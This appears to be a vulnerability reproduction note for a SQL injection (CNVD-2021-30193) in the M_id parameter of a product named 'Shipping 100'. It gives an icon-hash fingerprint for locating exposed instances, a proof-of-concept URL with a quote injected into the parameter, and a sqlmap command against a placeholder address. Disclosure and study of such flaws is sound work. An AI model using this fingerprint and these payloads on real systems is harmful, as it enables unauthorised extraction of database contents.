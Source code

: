 # Shipping 100 M_id SQL injection vulnerability CNVD-2021-30193

## Vulnerability Description

The 100 M_id parameter has SQL injection vulnerability, and the attacker can obtain sensitive database information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shipping 100</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1420424513"</span>

## Vulnerability reappears

The main page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210602204745265.png)



Using POC



```plain
/?M_id=1%27&type=product
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210602204842198.png)



An error occurred in the database, use Sqlmap to inject



```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210602233608318.png)